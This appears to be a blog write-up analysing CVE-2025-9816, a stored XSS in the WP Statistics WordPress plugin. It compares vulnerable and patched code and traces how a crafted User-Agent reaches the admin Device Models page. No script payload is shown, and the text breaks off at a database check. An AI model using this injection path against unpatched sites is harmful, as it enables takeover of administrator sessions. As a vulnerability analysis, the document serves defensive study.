<!--more-->

## CVE & Basic Info

**WP Statistics – The Most Popular Privacy-Friendly Analytics Plugin** for WordPress has a **Stored Cross-Site Scripting (XSS)** vulnerability via the **User-Agent Header** in all versions up to and including **14.15.4**. The root cause is insufficient **input validation/filtering** and **output escaping**.

This vulnerability allows an **unauthenticated attacker** to inject malicious JavaScript into the system. The injected scripts will execute whenever a user visits a page containing the malicious data, posing severe security and privacy risks.

* **CVE ID**: [CVE-2025-9816](https://www.cve.org/CVERecord?id=CVE-2025-9816)
* **Vulnerability Type**: Cross Site Scripting (XSS)
* **Affected Versions**: <= 14.15.4
* **Patched Versions**: 14.15.5
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress WP Statistics Plugin](https://wordpress.org/plugins/wp-statistics/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **WP Statistics**: **v14.15.4** (vulnerable) and **v14.15.5** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff comparison tool to inspect differences between the two versions.

## Analysis

I initially missed some details while collecting information about this CVE; the [references](https://plugins.trac.wordpress.org/browser/wp-statistics/tags/14.15.3/includes/admin/templates/pages/devices/models.php#L31) of [https://www.cve.org/CVERecord?id=CVE-2025-9816](https://www.cve.org/CVERecord?id=CVE-2025-9816) point to where the vulnerability occurs: `includes/admin/templates/pages/devices/models.php`{: .filepath}

But I overlooked it and used [**Meld**](https://meldmerge.org/) to compare code. Because the code changed a lot, I proactively searched for files related to **user-agent**.



The changes in `UserAgent.php` made me believe the vulnerability truly occurs there.



It cost me quite a bit of time but I couldn’t fully analyze it at that point. However, this effort helped the overall analysis.

🍀 Fortunately, guided by senior researchers, I **focused** on the correct [**vulnerability location**](https://plugins.trac.wordpress.org/browser/wp-statistics/tags/14.15.3/includes/admin/templates/pages/devices/models.php#L31). That made the analysis easier.

> Tip: This is a Cross Site Scripting vulnerability that happens in the victim’s browser, so you need to find where it is first rendered into HTML.

### Patch diff

The vulnerability occurs in file `includes/admin/templates/pages/devices/models.php`{: .filepath} at line 31.

In the **vulnerable** version, `$item->model` is printed into HTML without any protection:

```html
<span title="<?php echo \WP_STATISTICS\Admin_Template::unknownToNotSet($item->model); ?>" class="wps-model-name">
    <?php echo self::isUnknown($item->model) ? esc_html__('Unknown', 'wp-statistics') : $item->model; ?>
</span>
```

In the **patched** version, `$item->model` is protected by wrapping it with `esc_attr()` and `esc_html()`.

```html
<span title="<?php echo esc_attr(\WP_STATISTICS\Admin_Template::unknownToNotSet($item->model)); ?>" class="wps-model-name">
    <?php echo self::isUnknown($item->model) ? esc_html__('Unknown', 'wp-statistics') : esc_html($item->model); ?>
</span>
```

👉 The patch adds output escaping for `$item->model`, ensuring it is **escaped** before being printed to HTML.



### Vulnerable code

```html
<?php
use WP_STATISTICS\Helper;
?>

<div class="postbox-container wps-postbox-full">
  <?php if (!empty($data['visitors'])) : ?>
      <div class="o-table-wrapper">
          <table width="100%" class="o-table wps-new-table">
              <thead>
              </thead>
              <tbody>
                  <?php foreach ($data['visitors'] as $item) : ?>
                      <tr>
                          <td class="wps-pd-l">
                              <span title="<?php echo \WP_STATISTICS\Admin_Template::unknownToNotSet($item->model); ?>" class="wps-model-name">
                                  <?php echo self::isUnknown($item->model) ? esc_html__('Unknown', 'wp-statistics') : $item->model; ?>
                              </span>
                          </td>
                      </tr>
                  <?php endforeach; ?>
              </tbody>
          </table>
      </div>
  <?php else : ?>
      <div class="o-wrap o-wrap--no-data wps-center">
          <?php esc_html_e('No recent data available.', 'wp-statistics'); ?>
      </div>
  <?php endif; ?>
</div>
```

If `$data` is not empty it iterates over `$data` and displays statistical visitor data including `model`. If empty it prints `No recent data available.`

```php
public static function isUnknown($value)
{
    if (empty($value) or $value == 'Unknown' or $value == __("Unknown", 'wp-statistics')) {
        return true;
    }

    return false;
}

public static function unknownToNotSet($value)
{
    if (self::isUnknown($value)) {
        return __('(not set)', 'wp-statistics');
    }
    return $value;
}
````

`unknownToNotSet()` returns `(not set)` if `$item->model` is empty, `Unknown`, or the translated `Unknown`.

`__("Unknown", 'wp-statistics')` looks up the translation of `Unknown` in the plugin’s `.po`/`.mo` files.

👉 There is no protection for `$item->model`.

`$data` is not initialized in this file so it’s certain that it is created elsewhere and `models.php`{: .filepath} uses it when included. We could search for `models.php` to find where it is called, but here it is included dynamically. Instead, I searched for the containing folder `pages/devices`.


*Diff — How templates are included dynamically*

👉 `models.php`{: .filepath} is called dynamically in the `render()` function of the `TabsView` class:

```php
class TabsView extends BaseTabView
{
    public function render()
    {
        $currentTab  = $this->getCurrentTab();
        $data        = $this->getTabData();

        $args = [
            'title'           => esc_html__('Devices', 'wp-statistics'),
            'pageName'        => Menus::get_page_slug('devices'),
            'paged'           => Admin_Template::getCurrentPaged(),
            'custom_get'      => ['tab' => $currentTab],
            'data'            => $data,
            'viewMoreUrlArgs' => ['type' => 'single-' . rtrim($currentTab, 's'), 'from' => Request::get('from'), 'to' => Request::get('to')],
            'tabs'            => [
                [
                    'link'        => Menus::admin_url('devices', ['tab' => 'overview']),
                    'title'       => esc_html__('Overview', 'wp-statistics'),
                ],
                [
                    'link'        => Menus::admin_url('devices', ['tab' => 'browsers']),
                    'title'       => esc_html__('Browsers', 'wp-statistics'),
                ],
                [
                    'link'        => Menus::admin_url('devices', ['tab' => 'platforms']),
                    'title'       => esc_html__('Operating Systems', 'wp-statistics'),
                ],
                [
                    'link'        => Menus::admin_url('devices', ['tab' => 'models']),
                    'title'       => esc_html__('Device Models', 'wp-statistics'),
                ],
                [
                    'link'        => Menus::admin_url('devices', ['tab' => 'categories']),
                    'title'       => esc_html__('Device Categories', 'wp-statistics'),
                ]
            ],
        ];

        Admin_Template::get_template(['layout/header', 'layout/tabbed-page-header', "pages/devices/$currentTab", 'layout/postbox.hide', 'layout/footer'], $args);
    }
}
```

There is correlation between the values in `$args` and the Devices submenu.



The `tab` value in `args` corresponds to the `tab` URL parameter => the scope of tracing is the Devices admin submenu. We need to determine `$currentTab` to know how `render()` calls `models.php`{: .filepath} and `$data` for possible payload injection.

**Variable $currentTab**

```php
// $currentTab  = $this->getCurrentTab();
protected function getCurrentTab()
{
    return Request::get('tab', $this->defaultTab);
}
```

`getCurrentTab()` returns the value from `Request::get()`

```php
// $param='tab'
public static function get($param, $default = false, $return = 'string')
{
    if (empty($_REQUEST[$param])) return $default;

    $value = $_REQUEST[$param];

    if ($return === 'string') {
        return sanitize_text_field($value);
    }

    if ($return === 'url') {
        return sanitize_url($value);
    }

    if ($return === 'number') {
        return intval($value);
    }

    if ($return === 'text') {
        return sanitize_textarea_field($value);
    }

    if ($return === 'bool') {
        return boolval($value);
    }

    if ($return === 'array' && is_array($value)) {
        return array_map('sanitize_text_field', $value);
    }

    return $value;
}
```

👉 `get()` returns the value of the `'tab'` parameter from `$_REQUEST['tab']`, e.g.:

```
wp-admin/admin.php?page=wps_devices_page&tab=models <-- $value=models
```

👉 `$currentTab` is the value of the `tab` parameter.

**Variable $data**

```php
// $data = $this->getTabData();
protected function getTabData()
{
    $currentTab     = ucwords($this->getCurrentTab(), '-');
    $tabDataMethod  = 'get' . str_replace('-', '', $currentTab) . 'Data'; // getModelsData

    if (!method_exists($this, $tabDataMethod)) {
        // Filter to add data for locked tab
        return apply_filters("wp_statistics_{$this->getCurrentPage()}_{$this->getCurrentTab()}_data", []);
    };

    return $this->$tabDataMethod();
}
```

`getTabData()` is defined in the abstract class `BaseTabView`, and `TabsView` inherits it so `$data = $this->getTabData();` is how `TabsView` calls the inherited function.

We are focusing on **model** so the tab here is `models`, hence `$tabDataMethod` becomes `'getModelsData'`.

If `getModelsData()` does not exist then the filter hook `wp_statistics_wps_devices_page_models_data` is applied. But here `getModelsData()` is defined in `TabsView`, and `$this` is `TabsView`, so `TabsView`’s `getModelsData()` is called.

```php
public function __construct()
{
    parent::__construct();

    $this->dataProvider = new DevicesDataProvider([
        'per_page' => 10,
        'page'     => Admin_Template::getCurrentPaged()
    ]);
}

public function getModelsData()
{
    return $this->dataProvider->getModelsData();
}
```

`getModelsData()` returns the result of `getModelsData()` in `DevicesDataProvider`.

```php
public function __construct($args)
{
    $this->args = $args;

    $this->visitorsModel = new VisitorsModel();
}

public function getModelsData()
{
    $args = array_merge($this->args, [
        'field'    => 'model',
        'group_by' => ['model']
    ]);

    $visitors = $this->visitorsModel->getVisitorsDevices($args);

    if (! empty($visitors)) {
        $visitors = array_reduce($visitors, function ($carry, $item) {
            // Trim whitespace and default empty models to 'Unknown'
            $model = trim($item->model ?? '');

            if ($model === '') {
                $model = 'Unknown';
            }

            if (isset($carry[$model])) {
                $carry[$model]->visitors += $item->visitors;
            } else {
                $carry[$model] = (object)[
                    'model'    => $model,
                    'visitors' => $item->visitors
                ];
            }
            return $carry;
        }, []);
    }

    return [
        'visitors' => $visitors,
        'total'    => $this->visitorsModel->countColumnDistinct($args),
        'visits'   => $this->visitorsModel->countColumnDistinct(array_merge($args, ['field' => 'ID'])),
    ];
}
```

We focus on `$visitors` because it is iterated and displayed in `models.php`{: .filepath}

```php
<?php foreach ($data['visitors'] as $item) : ?>
```

`$visitors` is the result of `getVisitorsDevices()` from the `VisitorsModel` class:

```php
public function getVisitorsDevices($args = [])
{
    $args = $this->parseArgs($args, [
        'field'          => 'agent',
        'date'           => '',
        'where_not_null' => '',
        'group_by'       => [],
        'order_by'       => 'visitors',
        'order'          => 'DESC',
        'per_page'       => '',
        'page'           => 1,
    ]);

    $result = Query::select([
        $args['field'],
        'COUNT(visitor.ID) AS `visitors`',
    ])
        ->from('visitor')
        ->whereDate('last_counter', $args['date'])
        ->whereNotNull($args['where_not_null'])
        ->groupBy($args['group_by'])
        ->orderBy($args['order_by'], $args['order'])
        ->perPage($args['page'], $args['per_page'])
        ->getAll();

    return $result ? $result : [];
}
```

`getVisitorsDevices()` queries `from('visitor')` which is the `wp_statistics_visitor` table in the database, and returns results.

```sql
mysql> show tables;
+-------------------------------------+
| Tables_in_wordpress                 |
+-------------------------------------+          
| wp_statistics_visitor               |
| wp_other_table                      |
| wp_users                            |
+-------------------------------------+
```

The `wp_statistics_visitor` table includes the following fields:

```sql
mysql> desc wp_statistics_visitor;
+----------------+-----------------+------+-----+---------+----------------+
| Field          | Type            | Null | Key | Default | Extra          |
+----------------+-----------------+------+-----+---------+----------------+
| ID             | bigint          | NO   | PRI | NULL    | auto_increment |
| last_counter   | date            | NO   | MUL | NULL    |                |
| referred       | text            | NO   |     | NULL    |                |
| agent          | varchar(180)    | NO   | MUL | NULL    |                |
| platform       | varchar(180)    | YES  | MUL | NULL    |                |
| version        | varchar(180)    | YES  | MUL | NULL    |                |
| device         | varchar(180)    | YES  | MUL | NULL    |                |
| model          | varchar(180)    | YES  | MUL | NULL    |                |
| UAString       | varchar(190)    | YES  |     | NULL    |                |
| ip             | varchar(60)     | NO   | MUL | NULL    |                |
| location       | varchar(10)     | YES  | MUL | NULL    |                |
| user_id        | bigint          | NO   |     | NULL    |                |
| hits           | int             | YES  |     | NULL    |                |
| honeypot       | int             | YES  |     | NULL    |                |
| city           | varchar(100)    | YES  |     | NULL    |                |
| region         | varchar(100)    | YES  |     | NULL    |                |
| continent      | varchar(50)     | YES  |     | NULL    |                |
| source_channel | varchar(50)     | YES  |     | NULL    |                |
| source_name    | varchar(100)    | YES  |     | NULL    |                |
| first_page     | bigint unsigned | YES  |     | NULL    |                |
| first_view     | datetime        | YES  |     | NULL    |                |
| last_page      | bigint unsigned | YES  |     | NULL    |                |
| last_view      | datetime        | YES  |     | NULL    |                |
+----------------+-----------------+------+-----+---------+----------------+
```

👉 Thus, `$data` contains results from the `wp_statistics_visitor` table (including the visitor **model**) and other values. We need a way to store an **XSS payload** into the `model` field of `wp_statistics_visitor`.

Luckily, while struggling with the wrong sink earlier, I found how the plugin stores visitor information into `wp_statistics_visitor`.

```php
register_rest_route('wp-statistics/v2', '/' . 'hit', array(
    array(
        'methods'             => \WP_REST_Server::CREATABLE,
        'callback'            => array($this, 'hit_callback'),
        'args'                => self::require_params_hit(),
        'permission_callback' => function (\WP_REST_Request $request) {
            return $this->checkSignature($request);
        }
    )
));
```

The plugin registers a **REST API** endpoint `/wp-json/wp-statistics/v2/hit` with `hit_callback()` as the handler. But to use this endpoint, you must pass `checkSignature`.

```php
protected function checkSignature($request)
{
    if (Helper::isRequestSignatureEnabled()) {
        $signature = $request->get_param('signature');
        $payload   = [
            $request->get_param('source_type'),
            (int)$request->get_param('source_id'),
        ];

        if (!Signature::check($payload, $signature)) {
            return new \WP_Error('rest_forbidden', __('Invalid signature', 'wp-statistics'), array('status' => 403));
        }
    }

    return true;
}
```

These params are automatically provided when the page is loaded => it always returns true. Capturing the request with **Burp Suite** shows this clearly:

```http
POST /wp-json/wp-statistics/v2/hit HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; model_here) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36

wp_statistics_hit=1&source_type=home&source_id=0&search_query=&signature=787b07b8979cb982ec89a4f103a68081&endpoint=hit&referred=&page_uri=Lw%3D%3D
```

Therefore, we do not need to worry about `permission_callback`.

Returning to `hit_callback()`, this is the main function that handles saving visitor information.

```php
public function hit_callback()
{
    $statusCode = false;

    try {
        Helper::validateHitRequest();
        Hits::record();

        $responseData['status'] = true;

    } catch (Exception $e) {
        $responseData['status'] = false;
        $responseData['data']   = $e->getMessage();
        $statusCode             = $e->getCode();
    }

    $response = rest_ensure_response($responseData);

    if ($statusCode) {
        $response->set_status($statusCode);
    }

    $response->set_headers(array(
        'Cache-Control' => 'no-cache',
    ));

    return $response;
}
```

The issue is related to the user-agent header and the model parsed from it — we need to find how to add model data into the database. [This](https://51degrees.com/blog/understanding-user-agent-string#Unpacking%20the%20User%20Agent%20string) shows the structure of user-agent strings which can include model information.

```php
// Helper::validateHitRequest();
public static function validateHitRequest()
{
    $isValid = Request::validate([
        'page_uri'     => [
            'required'        => true,
            'nullable'        => true,
            'type'            => 'string',
            'encoding'        => 'base64',
            'invalid_pattern' => self::injectionPatterns()
        ],
        'search_query' => [
            'required'        => true,
            'nullable'        => true,
            'type'            => 'string',
            'encoding'        => 'base64',
            'invalid_pattern' => self::injectionPatterns()
        ],
        'source_id'    => [
            'type'     => 'number',
            'required' => true,
            'nullable' => false
        ],
        'referred'     => [
            'required' => true,
            'nullable' => true,
            'type'     => 'url',
            'encoding' => 'base64'
        ],
    ]);

    if (!$isValid) {
        do_action('wp_statistics_invalid_hit_request', $isValid, IP::getIP());
        throw new ErrorException(esc_html__('Invalid hit/online request.', 'wp-statistics'));
    }

    return true;
}
```

`validateHitRequest()` validates parameters in the request body for the `hit` endpoint; these params are provided by the plugin itself, so they do not affect the model parsed from the user-agent header.

```php
// Hits::record();
public static function record($visitorProfile = null)
{
    if (!$visitorProfile) {
        $visitorProfile = new VisitorProfile();
    }

    /**
        * Record Pages
        */
    $pageId = false;
    if (Pages::active()) {
        $pageId = Pages::record($visitorProfile);
    }

    /**
        * Record Visitor Detail
        */
    $visitorId = false;
    if (Visitor::active()) {
        $visitorId = Visitor::record($visitorProfile, ['page_id' => $pageId]);
    }

    // other logic
}
```

The `record` keyword suggests storing visitor details into the database.

If `visitor=null` (i.e., not existing) it calls `Visitor::active()` to check and then `record()` for the **Visitor**.

```php
public static function active()
{
    return (has_filter('wp_statistics_active_visitors')) ? apply_filters('wp_statistics_active_visitors', true) : true;
}
```

`active()` returns **true by default**.

* If a filter `add_filter('wp_statistics_active_visitors', 'my_function')` exists, the return value may change according to the filter.
* If no filter is added, it just returns **true**.

A search for the hook name `wp_statistics_active_visitors` found no filter additions.


*Search results for hook name wp_statistics_active_visitors*

👉 `active()` is always true => `Visitor::record()` is invoked.

```php
 public static function record($visitorProfile, $arg = array())
{
    global $wpdb;

    // Define the array of defaults
    $defaults = array(
        'location'         => '',
        'exclusion_match'  => false,
        'exclusion_reason' => '',
        'page_id'          => 0
    );

    $userAgent    = $visitorProfile->getUserAgent(); <-- focus
    $same_visitor = $visitorProfile->isIpActiveToday();

    // If we have a new Visitor in Day
    if (!$same_visitor) {

        // Prepare Visitor information
        $visitor = array(
            'agent'          => $userAgent->getBrowser(),
            'platform'       => $userAgent->getPlatform(),
            'version'        => $userAgent->getVersion(),
            'device'         => $userAgent->getDevice(),
            'model'          => $userAgent->getModel(), <-- focus
            // other logic
        );

        $visitor = apply_filters('wp_statistics_visitor_information', $visitor);

        //Save Visitor TO DB
        $visitor_id = self::save_visitor($visitor, $visitorProfile);

    } else {
    }
}
```

The plugin takes the user-agent from the HTTP request and assigns it to `$userAgent`.


*Debugging $userAgent*

Then it assigns fields to the `$visitor` array and saves the visitor info to the database using `save_visitor()`. We must focus on the line containing model:

```php
'model' => $userAgent->getModel()
```

{: file="includes/class-wp-statistics-visitor.php v14.15.4"}

`'model'` is the return value of `getModel()`:

```php
public function getModel()
{
    $model = '';

    if (! empty($this->deviceDetector)) {
        $brand  = $this->deviceDetector->getBrandName();
        $device = $this->deviceDetector->getModel();

        if (!empty($device)) {
            $words = explode(' ', trim($device));
            $device = $words[0] ?? null;

            if (! empty($device) && ctype_digit($device)) {
                $device = '';
            }
        }

        $model = trim($brand . ' ' . $device);
    }      

    return $model ?? null;
}
```

The logic in `getModel()` depends on `deviceDetector` which is initialized in `__construct`; we need to identify what that is:

```php
class UserAgentService
{
    public function __construct()
    {
        try {
            // Get HTTP User Agent
            $userAgent = UserAgent::getHttpUserAgent();

            // Initialize DeviceDetector with the user agent string
            $this->deviceDetector = new \WP_Statistics\Dependencies\DeviceDetector\DeviceDetector($userAgent);
            $this->deviceDetector->parse();

        } catch (Exception $e) {
            // In case of an error, set deviceDetector to null
            $this->deviceDetector = null;
        }
    }
}
```

`deviceDetector` is an instance of class `DeviceDetector`, initialized with the `$userAgent` string from the HTTP request.


*Debugging $userAgent*

```php
class DeviceDetector 
{
    public function __construct(string $userAgent = '', ?ClientHints $clientHints = null)
    {
        if ('' !== $userAgent) {
            $this->setUserAgent($userAgent);
        }

        if ($clientHints instanceof ClientHints) {
            $this->setClientHints($clientHints);
        }

        $this->addClientParser(new FeedReader());
        $this->addClientParser(new MobileApp());
        $this->addClientParser(new MediaPlayer());
        $this->addClientParser(new PIM());
        $this->addClientParser(new Browser());
        $this->addClientParser(new Library());

        $this->addDeviceParser(new HbbTv());
        $this->addDeviceParser(new ShellTv());
        $this->addDeviceParser(new Notebook());
        $this->addDeviceParser(new Console());
        $this->addDeviceParser(new CarBrowser());
        $this->addDeviceParser(new Camera());
        $this->addDeviceParser(new PortableMediaPlayer());
        $this->addDeviceParser(new Mobile());

        $this->addBotParser(new Bot());
    }
}
```

`DeviceDetector` sets the user-agent and adds **parsers** for different device/app types. These parsers relate to `$this->deviceDetector->parse();` called earlier.

Let’s inspect the `Mobile` parser:

```php
class Mobile extends AbstractDeviceParser
{
    /**
     * @var string
     */
    protected $fixtureFile = 'regexes/device/mobiles.yml';

    /**
     * @var string
     */
    protected $parserName = 'mobile';
}
```

`$fixtureFile` in `Mobile` points to files containing regex patterns; we search for `regexes/device/mobiles.yml`.


*Search for regexes/device/mobiles.yml*

Contents of `mobile.yml`{: .filepath}:

```yml
# Gol Mobile (gol-mobile.com)
Gol Mobile:
  regex: '(?:F10_PRIME|F3Prime|F9_PLUS|TEAM_7_3G)(?:[);/ ]|$)'
  device: 'smartphone'
  models:
    - regex: 'F10_PRIME'
      model: 'F10 Prime'
    - regex: 'F3Prime'
      model: 'F3 Prime'
    - regex: 'F9_PLUS'
      model: 'F9 Plus'
    - regex: 'TEAM_7_3G'
      device: 'tablet'
      model: 'Team 7.0 3G'

# Goly: 
Goly:
  regex: 'Goly[ _-]'      # match when UA contains "Goly-" or "Goly_" or "Goly "
  device: 'smartphone'    # device type
  models:
    - regex: 'Goly[ _-]([^;/]+) Build'   # capture model before "Build"
      model: '$1'
    - regex: 'Goly[ _-]([^;/)]+)(?:[;/)]|$)'  # capture model before ; / ) or end-of-string
      model: '$1'

# other model
```

`mobile.yml` contains regexes to detect mobile devices and extract their model names.

After `DeviceDetector` is initialized in `UserAgentService::__construct`, `parse()` is invoked to analyze the user-agent string.

```php
public function parse(): void
{
    if ($this->isParsed()) {
        return;
    }

    $this->parsed = true;

    // skip parsing for empty useragents or those not containing any letter (if no client hints were provided)
    if ((empty($this->userAgent) || !\preg_match('/([a-z])/i', $this->userAgent))
        && empty($this->clientHints)
    ) {
        return;
    }
    // other parse

    $this->parseDevice();
}
```

If the UA is not parsed yet, `parseDevice()` is called.

```php
protected function parseDevice(): void
{
    $parsers = $this->getDeviceParsers();

    foreach ($parsers as $parser) {
        $parser->setYamlParser($this->getYamlParser());
        $parser->setCache($this->getCache());
        $parser->setUserAgent($this->getUserAgent());
        $parser->setClientHints($this->getClientHints());

        if ($parser->parse()) {
            $this->device = $parser->getDeviceType();
            $this->model  = $parser->getModel();
            $this->brand  = $parser->getBrand();

            break;
        }
    }
    // other logic
}
```

`parseDevice()` loops through the configured parsers, sets config including regexes from `.yml`, and if a parser matches it sets the model, device, and brand on `DeviceDetector`.


*Debug of $parsers*

Then it iterates, setting parameters and parsing; if successful, it assigns model, device, and brand.


*Debug assigning values to DeviceDetector parameters*


*Debug of model value*

Thus we now know how to control the model value before it is assigned to `$visitor` and saved to the database.


*Debug of model value in $visitor*

Database check:

```sql
